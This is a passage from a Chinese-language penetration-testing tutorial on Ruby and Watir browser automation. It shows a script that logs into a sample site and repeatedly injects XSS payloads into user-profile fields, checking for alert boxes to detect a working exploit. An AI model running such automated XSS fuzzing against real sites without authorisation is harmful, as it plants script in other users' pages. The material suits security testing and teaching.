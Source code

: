 ```

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"
payloads.each do |payload|
  print "\r[*] Trying: #{payload}"
  print "\e[K"
  sendpost payload

  if @browser.alert.exists?
    @browser.alert.ok
    puts "[+] Exploit found!: " + payload
    @browser.close
  end
end 
```

### 处理标签页

我遇到的一个场景是利用 XSS 用户配置字段，并在另一页中检查结果，该页面显示公共用户的配置文件。我不断地重新访问 URL，而是打开新标签页并刷新公共用户的配置文件页面，然后返回发送利用，依此类推。

**xss_tab.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'
require 'uri'

@url = URI.parse "http://example.com/Users/User_Edit.aspx?userid=68"

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)
# @browser.window.move_to(540, 165)
@wait = Selenium::WebDriver::Wait.new(:timeout => 10)

@browser.goto "http://example.com/logon.aspx"

# Login
@browser.text_field(name: 'Login1$UserName').set("admin")
@browser.text_field(name: 'Login1$Password').set("P@ssword")
sleep 0.5
@browser.button(name: 'Login1$LoginButton').click

def sendpost(payload)
  begin

    @browser.switch                                                             # Make sure to focus on current tab/window
    @browser.goto "#{@url.scheme}://#{@url.host}/#{@url.path}?#{@url.query}"    # Goto the URL
    @wait.until {@browser.text_field(id: 'txtFullName').exists?}                # Wait until wanted text area appear
    @browser.text_field(id: 'txtFullName').set(payload)                         # Set payload to the text area
    @browser.text_field(id: 'txtFirstName').set(payload)                        # Set payload to the text area
    @browser.button(name: '$actionsElem$save').click                            # Click Save button

  rescue Selenium::WebDriver::Error::UnhandledAlertError
    @browser.refresh                            # Refresh the current page
    @wait.until {@browser.alert.exists?}        # Check if alert box appear
  end
end

```